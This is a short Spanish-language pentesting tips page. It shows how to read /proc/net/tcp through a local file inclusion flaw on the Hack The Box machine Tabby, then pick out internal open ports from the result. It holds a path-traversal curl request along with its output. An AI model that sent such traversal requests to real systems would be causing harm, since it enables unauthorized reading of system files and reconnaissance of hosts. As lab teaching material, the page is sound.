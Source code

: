 
<br>
<br>
<hr>
<div style="position: relative;">
	<h1 id="Web" style="text-align:center;">Tips para Pentesting Web</h1>
</div>
<br>


<h2 id="CURL">Enumerando Puertos Internos con CURL</h2>

Digamos que tienes la forma de visualizar archivos internos de una máquina desde una aplicación web o página web, gracias a la inyección de comandos por LFI. Si puedes visualizar el archivo **tcp** del directorio **/proc/net**, puedes descubrir que puertos internos estan abiertos utilizando la herramienta **CURL**.

Para hacerlo, obtengamos una petición por el metodo GET con el parámetro **-X**. Como prueba, usaremos la **máquina Tabby**:
```bash
curl -s -X GET "http://megahosting.htb/news.php?file=../../../../../../../proc/net/tcp"
  sl  local_address rem_address   st tx_queue rx_queue tr tm->when retrnsmt   uid  timeout inode                                                     
   0: 00000000:1F90 00000000:0000 0A 00000000:00000000 00:00000000 00000000   997        0 24968 1 0000000000000000 100 0 0 10 0                     
   1: 00000000:0050 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 22923 1 0000000000000000 100 0 0 10 0                     
   2: 3500007F:0035 00000000:0000 0A 00000000:00000000 00:00000000 00000000   101        0 21938 1 0000000000000000 100 0 0 10 0                     
   3: 00000000:0016 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 22903 1 0000000000000000 100 0 0 10 0                     
   4: C20A0A0A:0050 040E0A0A:B7D2 01 00000000:00000000 02:000AFC7F 00000000    33        0 32297 2 0000000000000000 166 4 30 10 21                   
   5: C20A0A0A:86BA 01010101:0035 02 00000001:00000000 01:000002E0 00000003   101        0 36768 2 0000000000000000 800 0 0 1 7
```

Vamos a usar solamente la columna del **local_address**, si la quieres seleccionar, presiona **ctrl + alt** y selecciona solo los resultados de esa columna (esto funciona en Kali, no se si funciona en otros SO) y reproduce el resultado con **echo**:
```bash
echo "00000000:1F90                                                               
00000000:0050        
3500007F:0035        
00000000:0016        
C20A0A0A:0050        
C20A0A0A:86BA"
00000000:1F90        
00000000:0050        
3500007F:0035        
00000000:0016        
C20A0A0A:0050        
C20A0A0A:86BA
```
